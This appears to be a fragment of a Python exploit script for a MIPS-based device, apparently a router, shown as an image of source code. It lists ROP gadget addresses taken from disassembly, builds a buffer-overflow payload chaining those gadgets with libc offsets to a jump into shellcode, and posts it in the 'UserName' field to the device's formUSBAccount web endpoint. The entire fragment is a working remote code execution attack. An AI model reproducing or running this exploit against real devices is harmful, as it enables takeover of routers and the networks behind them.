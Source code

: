 ```python
.text:0002616C 21 90 40 00                   move    $s2, $v0
.text:00026174 D4 00 BF 8F                   lw      $ra, 0xC0+var_s14($sp)
.text:00026178 D0 00 B4 8F                   lw      $s4, 0xC0+var_s10($sp)
.text:0002617C CC 00 B3 8F                   lw      $s3, 0xC0+var_sC($sp)
.text:00026180 C8 00 B2 8F                   lw      $s2, 0xC0+var_s8($sp)
.text:00026184 C4 00 B1 8F                   lw      $s1, 0xC0+var_s4($sp)
.text:00026188 C0 00 B0 8F                   lw      $s0, 0xC0+var_s0($sp)
.text:0002618C 21 10 60 00                   move    $v0, $v1
.text:00026190 08 00 E0 03                   jr      $ra
.text:00026194 D8 00 BD 27                   addiu   $sp, 0xD8
"""
addiu_a1_sp = 0x00026164

"""
.text:00020B3C 21 C8 A0 00                   move    $t9, $a1
.text:00020B40 21 28 C0 00                   move    $a1, $a2
.text:00020B44 08 00 20 03                   jr      $t9
.text:00020B48 08 00 84 24                   addiu   $a0, 8
"""
move_t9_a1 = 0x00020b3c

"""
.text:0004FEC4 21 C8 40 00                   move    $t9, $v0
.text:0004FEC8 09 F8 20 03                   jalr    $t9 ; setresuid
.text:0004FECC 00 00 00 00                   nop
"""
move_t9_v0 = 0x0004fec4

############### exploit ##############
payload  = b'A'*0x98 + p32(0x01010101)                # $s0 = usleep arg
payload += p32(usleep_addr + libc_base)               # $s1 = usleep address
payload += p32(middle_jump + libc_base)               # $s2 = middle jump
payload += b'A'*0x18 + p32(move_a0_s0 + libc_base)    # $ra = 

############## get stack address #############
payload += b'B'*0x20                                  # padding
payload += p32(addiu_a1_sp + libc_base)               # $s0
payload += p32(sleep_addr+libc_base)                  # $ra

#############  #####################
payload += b'C' * 24
payload += myjump_to_shellcode
payload += b'C' * (212 - 24 - 12)

############## 
payload += p32(move_t9_a1 + libc_base)
payload += b'D' * 0x104
payload += shellcode


param1s = {
    'editFolder': 1,
    'UserName': payload,
}

r = requests.post(url='http://192.168.2.1/goform/formUSBAccount', data=param1s, headers=headers)
print(f"r.status_code ======> {r.status_code}")


```
